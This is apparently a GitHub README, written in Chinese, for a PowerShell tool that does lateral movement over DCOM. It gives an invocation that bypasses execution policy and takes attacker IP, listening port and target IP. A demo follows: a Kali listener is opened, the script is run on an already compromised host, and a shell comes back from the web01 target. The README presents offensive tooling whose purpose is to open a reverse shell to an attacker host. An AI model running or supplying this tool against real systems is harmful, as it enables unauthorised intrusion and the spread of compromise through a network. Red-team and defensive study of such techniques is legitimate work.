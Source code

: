 # Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：
powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"
例：
powershell -ep bypass -c ".\dcom.ps1 127.0.0.1 3333 192.168.8.8"

lhost：攻击机IP
lport：攻击机的监听端口
rhost：要横向移动到的目标靶机的IP

演示案例：
我们已经获得192.168.50.74 - client74的控制权限
想要横向移动到192.168.50.72 - web01主机

1. 在kali开启监听
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
3. 在client74中运行脚本
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)
4. kali收到来自web01的shell
